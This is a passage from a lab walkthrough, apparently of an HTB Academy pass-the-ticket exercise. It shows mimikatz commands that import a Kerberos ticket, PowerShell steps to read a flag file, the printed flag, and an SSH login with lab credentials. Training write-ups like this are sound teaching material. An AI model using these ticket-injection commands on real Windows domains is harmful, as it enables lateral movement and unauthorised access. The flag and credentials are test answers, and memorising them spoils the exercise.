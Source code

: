 `privilege::debug`

`kerberos::ptt "C:\Users\Administrator.WIN01\Desktop[0;7500d]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"`

<figure><img src=".gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

`exit`

`powershell`

`cd C:/john/`

`dir`

`type john.exe`

<figure><img src=".gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**P4\$$\_th3\_Tick3T\_PSR**</mark>

### Pass the Ticket (PtT) from Linux

Questions

**Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.**

`ssh david@inlanefreight.htb@10.129.218.18 -p 2222`

PW: Password2
